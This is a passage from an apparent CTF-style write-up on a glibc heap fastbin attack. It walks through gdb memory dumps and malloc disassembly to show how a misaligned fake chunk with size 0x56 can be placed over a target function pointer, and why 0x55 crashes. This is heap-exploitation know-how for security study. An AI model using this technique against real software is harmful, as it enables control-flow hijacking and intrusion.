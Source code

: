 Our target plane fast chunk looks like the following. 
{% highlight bash %}
gdb-peda$ x/32xg 0x562c639bd120
0x562c639bd120: 0x0000000000000000      0x0000000000000051
0x562c639bd130: 0x0000562c639b0047      0x00007fcf455bbb00 
0x562c639bd140: 0x0000000000000000      0x0000000000000000
0x562c639bd150: 0x0000562c621be5ef      0x0000000000000000
0x562c639bd160: 0x0000562c639bd010      0x0000000000000000
0x562c639bd170: 0x0000562c621bdb7d      0x0000000000000041 <-- target fnc ptr
{% endhighlight %}

We can again use a misaligned address as our target fake chunk for our fastbin attack, since `malloc()` does not check to see that the requested chunk is aligned. 

**Only `realloc()` and `free()` perform alignment checks!**
{% highlight bash %}
gdb-peda$ x/32xg 0x562c639bd170-0x30+0xd
0x562c639bd14d: 0x2c621be5ef000000      0x0000000000000056
0x562c639bd15d: 0x2c639bd010000000      0x0000000000000056
0x562c639bd16d: 0x2c621bdb7d000000      0x0000000041000056
0x562c639bd17d: 0xcf455bbb78000000      0x2c639bd24000007f
{% endhighlight %}

One catch is that in order for us to be able to use this fake chunk to satisfy a `malloc()` request, the size field has to be `0x56` and not `0x55`. 

This is due to an extra check that is performed if the `IS_MMAPED` bit is turned off.

What we don't want to do, is end up here:
{% highlight bash %}
   0x7ffff7a91613 <__GI___libc_malloc+147>: mov    rax,QWORD PTR [rdx-0x8]
   0x7ffff7a91617 <__GI___libc_malloc+151>: test   al,0x2 <--- checks `IS_MMAPED` bit
   0x7ffff7a91619 <__GI___libc_malloc+153>: jne    0x7ffff7a9163c <__GI___libc_malloc+188> 
   0x7ffff7a9161b <__GI___libc_malloc+155>: test   al,0x4
   0x7ffff7a9161d <__GI___libc_malloc+157>: lea    rcx,[rip+0x3404fc]  # 0x7ffff7dd1b20 <main_arena>
   0x7ffff7a91624 <__GI___libc_malloc+164>: je     0x7ffff7a91633 <__GI___libc_malloc+179>
   0x7ffff7a91626 <__GI___libc_malloc+166>: lea    rax,[rdx-0x10]
   0x7ffff7a9162a <__GI___libc_malloc+170>: and    rax,0xfffffffffc000000
=> 0x7ffff7a91630 <__GI___libc_malloc+176>: mov    rcx,QWORD PTR [rax] <--- crashes!
   0x7ffff7a91633 <__GI___libc_malloc+179>: cmp    rcx,rbx
   0x7ffff7a91636 <__GI___libc_malloc+182>: jne    0x7ffff7a916ff <__GI___libc_malloc+383>
   0x7ffff7a9163c <__GI___libc_malloc+188>: mov    rax,rdx
   0x7ffff7a9163f <__GI___libc_malloc+191>: add    rsp,0x8
{% endhighlight %}

If our fake size is `0x55`, this causes a crash.
A SIGGEV access violation occurs @ the `mov    rcx,QWORD PTR [rax]` instruction on line `0x7ffff7a91630` because `0x55 AND 0x2 = 0x0` whereas `0x56 AND 0x2 = 0x2`.

The former causes the conditional jmp @ `0x7ffff7a91619` to not be taken, eventually leading us to `0x7ffff7a91630`.

So, long story short, **our exploit only works when the heap base address starts with `0x56` and not `0x55`.**    
